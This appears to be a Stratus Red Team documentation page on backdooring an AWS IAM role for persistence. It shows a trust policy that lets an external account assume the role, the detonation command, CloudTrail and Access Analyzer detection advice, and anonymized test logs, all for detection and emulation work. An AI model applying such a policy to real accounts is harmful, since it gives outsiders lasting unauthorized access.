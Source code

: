 ```yaml
---
title: Backdoor an IAM Role
---
```


# Backdoor an IAM Role


 <span class="smallcaps w3-badge w3-blue w3-round w3-text-white" title="This attack technique can be detonated multiple times">idempotent</span> 

Platform: AWS

## MITRE ATT&CK Tactics


- Persistence

## Description


Establishes persistence by backdooring an existing IAM role, allowing it to be assumed from an external AWS account.

<span style="font-variant: small-caps;">Warm-up</span>: 

- Create an IAM role.

<span style="font-variant: small-caps;">Detonation</span>: 

- Update the assume role policy of the IAM role to backdoor it, making it accessible from an external, fictitious AWS account:

<pre>
<code>
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "Service": "ec2.amazonaws.com"
      },
      "Action": "sts:AssumeRole"
    },
    {
      "Effect": "Allow",
      "Principal": {
        "AWS": "arn:aws:iam::193672423079:root"
      },
      "Action": "sts:AssumeRole"
    }
  ]
}
</code>
</pre>


## Instructions

```bash title="Detonate with Stratus Red Team"
stratus detonate aws.persistence.iam-backdoor-role
```
## Detection


- Using CloudTrail's <code>UpdateAssumeRolePolicy</code> event.

- Through [IAM Access Analyzer](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html#access-analyzer-iam-role), 
which generates a finding when a role can be assumed from a new AWS account or publicly.





## Detonation logs <span class="smallcaps w3-badge w3-pink w3-round w3-text-sand" title="TODO">new</span>

The following CloudTrail events are generated when this technique is detonated[^1]:


- `iam:UpdateAssumeRolePolicy`


??? "View raw detonation logs"

    ```json hl_lines="6"

    [
	   {
	      "awsRegion": "ca-isob-northsouth-1r",
	      "eventCategory": "Management",
	      "eventID": "62e290e2-ee95-4a7c-a9f8-db4ef462b12d",
	      "eventName": "UpdateAssumeRolePolicy",
	      "eventSource": "iam.amazonaws.com",
	      "eventTime": "2024-08-01T13:29:57Z",
	      "eventType": "AwsApiCall",
	      "eventVersion": "1.09",
	      "managementEvent": true,
	      "readOnly": false,
	      "recipientAccountId": "751203476945",
	      "requestID": "295ee6e3-1da9-416f-885d-ad65d876ef82",
	      "requestParameters": {
	         "policyDocument": "{\n  \"Version\": \"2012-10-17\",\n  \"Statement\": [\n    {\n      \"Effect\": \"Allow\",\n      \"Principal\": {\n        \"Service\": \"ec2.amazonaws.com\"\n      },\n      \"Action\": \"sts:AssumeRole\"\n    },\n    {\n      \"Effect\": \"Allow\",\n      \"Principal\": {\n        \"AWS\": \"arn:aws:iam::193672423079:root\"\n      },\n      \"Action\": \"sts:AssumeRole\"\n    }\n  ]\n}",
	         "roleName": "stratus-red-team-backdoor-r-role"
	      },
	      "responseElements": null,
	      "sourceIPAddress": "225.178.039.250",
	      "tlsDetails": {
	         "cipherSuite": "TLS_AES_128_GCM_SHA256",
	         "clientProvidedHostHeader": "iam.amazonaws.com",
	         "tlsVersion": "TLSv1.3"
	      },
	      "userAgent": "stratus-red-team_180e078f-4ad3-40c5-9ec3-efff37e17b25",
	      "userIdentity": {
	         "accessKeyId": "AKIAMUV7B57OZM0RV05D",
	         "accountId": "751203476945",
	         "arn": "arn:aws:iam::751203476945:user/christophe",
	         "principalId": "AIDA7SLGLLJ9LWK18E4Y",
	         "type": "IAMUser",
	         "userName": "christophe"
	      }
	   }
	]
    ```

[^1]: These logs have been gathered from a real detonation of this technique in a test environment using [Grimoire](https://github.com/DataDog/grimoire), and anonymized using [LogLicker](https://github.com/Permiso-io-tools/LogLicker).

